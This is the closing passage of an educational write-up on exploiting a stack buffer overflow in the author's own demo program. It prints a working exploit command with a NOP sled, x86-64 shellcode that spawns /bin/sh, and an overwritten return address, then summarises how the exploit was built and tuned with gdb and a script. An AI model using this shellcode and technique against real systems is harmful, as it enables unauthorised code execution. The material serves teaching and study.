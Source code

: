 The most critical elements of the script are the value of the `addr` variable and the number of zeros. Remeber that the `addr` variable denotes the address on the stack where we expect our shellcode to be stored (the address we want the instruction pointer to point to), whereas the number of zeros "bridges the gap" between the program variable and the location where the instruction pointer of the caller is stored. As we had already seen, the stack (and as a consequence the value of `addr`) can change because of different environment on the same machine, things get even worse in the case of different kernel or compiler versions. In order to reproduce the results presented here, the reader should determine the value of `addr` for his environment as it has been explained in the paragraphs above (similar for the number of zeros, although this parameter should be more "stable").

In the author's case the script stopped (became a new shell) when the `i` had the value `9` and `j` had the value `2`. So the final exploit to work for the executable is the following:

```
printf "%b%036x%b" \
"\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\xb0\x3b\x48\x31\xd2\x48\x31\xf6\x48\x89\xe7\x0f\x05" \ 
"0" "\x91\xdc\xff\xff\xff\x7f"
```

The complete expression to exploit the vulnerable executable is the following:

```
<path>/vulnerable $(printf "%b%036x%b" \ 
"\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xc0\x50\x48\xbb\x2f\x2f\x62\x69\x6e\
x2f\x73\x68\x53\xb0\x3b\x48\x31\xd2\x48\x31\xf6\x48\x89\xe7\x0f\x05" \
"0" "\x91\xdc\xff\xff\xff\x7f")
```
In the expression, the `<path>`-element has to be replaced accordingly, i.e., by the absolute path of the directory, where the executable can be found. Note that the absolute path is obviously important, i.e., the same exploit would (most probably) not work in case the `<path>/`-part would be omitted, e.g., by simply calling the executable in the corresponding directory with the command `./vulnerable`. However, using the script the exploit can be adjusted accordingly. Additionally, note that, by increasing the "`NOP`-sled", the probability that the newly set return address will lead to an execution of the shellcode can be increased and thus the exploit can be made "resilient" against changing environment variables on different target machines to some extent.  

# Summary

We have started our report by the construction of what is called *shellcode*, i.e., a set of machine instruction that can be filled into an executable area of memory and when pointed at by the instruction pointer, will open a shell for us. As a next step we have looked at some `C`-code that takes some input and writes it to memory without checking memory bounds, i.e., the length of the input string may exceed the size of the memory area that is planned to store the input string. As a consequence, we were able to overwrite elements on the stack of the process, most important we managed to overwrite (and thus control) the return-address of the function that processes the input. We have further investigated the problem using the debugger `gdb`.

Using `gdb` we were able to craft a string that contains our shellcode and that has turned the vulnerable program into a shell when executed within `gdb`. Given our exploit in `gdb`, we have learned that the exploit will not work when applied to the executable right away, since a set of elements on the stack may change from the debugging environment to the "normal" environment, such that the exploit has to be adjusted accordingly. For this purpose we came up with a little shell-script that lets us test a set of return-addresses and offsets automatically.
